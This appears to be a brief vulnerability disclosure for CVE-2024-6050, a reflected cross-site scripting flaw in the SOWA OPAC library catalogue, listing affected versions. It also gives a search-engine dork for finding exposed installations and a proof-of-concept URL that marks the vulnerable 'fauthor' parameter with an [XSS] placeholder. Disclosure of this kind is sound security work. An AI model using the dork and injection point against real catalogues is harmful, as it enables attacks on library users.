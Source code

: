 # CVE-2024-6050
Reflected XSS in SOWA OPAC
Version: from 4.0 before 4.9.10, from 5.0 before 6.2.12.
`intext:"SOWA OPAC v."`

## PoC

```
https://[domain]/index.php?KatID=0&typ=repl&plnk=q__*&fauthor=[XSS]
```
